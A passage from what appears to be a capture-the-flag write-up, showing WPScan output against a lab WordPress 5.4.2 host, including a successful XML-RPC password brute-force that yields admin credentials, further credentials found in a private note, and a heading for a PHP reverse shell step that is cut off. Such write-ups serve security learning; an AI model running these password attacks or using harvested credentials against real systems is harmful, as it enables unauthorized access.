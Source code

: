     [+] WordPress readme found: http://10.10.156.30/wordpress/readme.html
    | Found By: Direct Access (Aggressive Detection)
    | Confidence: 100%

    [+] The external WP-Cron seems to be enabled: http://10.10.156.30/wordpress/wp-cron.php
    | Found By: Direct Access (Aggressive Detection)
    | Confidence: 60%
    | References:
    |  - https://www.iplocation.net/defend-wordpress-from-ddos
    |  - https://github.com/wpscanteam/wpscan/issues/1299

    [+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
    | Found By: Emoji Settings (Passive Detection)
    |  - http://10.10.156.30/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.4.2'
    | Confirmed By: Meta Generator (Passive Detection)
    |  - http://10.10.156.30/wordpress/, Match: 'WordPress 5.4.2'

    [i] The main theme could not be detected.

    [+] Enumerating All Plugins (via Passive Methods)

    [i] No plugins Found.

    [+] Enumerating Config Backups (via Passive and Aggressive Methods)
    Checking Config Backups - Time: 00:00:01 <============================================> (137 / 137) 100.00% Time: 00:00:01

    [i] No Config Backups Found.

    [+] Performing password attack on Xmlrpc against 1 user/s
    [SUCCESS] - admin / my2boys
    Trying admin / lizzy Time: 00:01:19 <                                             > (3885 / 14348276)  0.02%  ETA: ??:??:??

    [!] Valid Combinations Found:
    | Username: admin, Password: my2boys

    [!] No WPScan API Token given, as a result vulnerability data has not been output.
    [!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
    ```

So now we can login to wordpress as admin and look around.

The wordpress page reveals a private note on credentals of william being william:arnold147 sofar this doesnt seem usable

## Wordpress php reverse shell

